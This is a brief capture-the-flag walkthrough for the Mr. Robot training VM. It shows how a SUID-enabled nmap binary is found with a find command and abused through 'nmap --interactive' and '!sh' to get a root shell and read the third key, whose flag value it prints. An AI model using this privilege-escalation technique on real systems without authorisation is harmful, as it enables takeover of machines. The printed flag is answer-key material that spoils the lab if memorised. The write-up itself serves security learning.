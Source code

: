 ## MR.ROBOT  VM 

## Objective
Finding key 3

## Solution
over last key requires root access so we need to escalate our privilages to root
open google and search for privilage escalation linux.
i opened up the first link(payatu.com).

![](priv.png)

it gives various techniques.
see the third point.EXPLOITING SUID EXECUTABLES
trying it.
```
find / -perm -u=s -type f 2>/dev/null

```

![](suid.png)


seeing result 
we find that nmap have suid bit set similar to the result in payatu site technique.
so we can use nmap to execute commands with root privilage

```
nmap --interactive

```

now use !sh to type shell commands

```
!sh
cd /root
ls
cat key-3-of-3.txt
```
![](key3.png)

we got our final key.

key3=04787ddef27c3dee1ee161b21670b4e4



